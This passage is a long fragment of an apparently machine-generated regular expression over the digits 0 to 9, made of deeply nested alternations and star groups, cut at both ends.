(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(4|50*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|0|50*5)(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(0|10*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|10*5|4)*(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|4|(3|8)0*7)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(0|10*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|10*7|6)|((((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(4|50*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|1|50*4)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|4|(3|8)0*7)|(((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(4|50*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|50*7|(2|9))*((((((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(4|50*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|1|50*4)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(4|50*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|0|50*5)(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1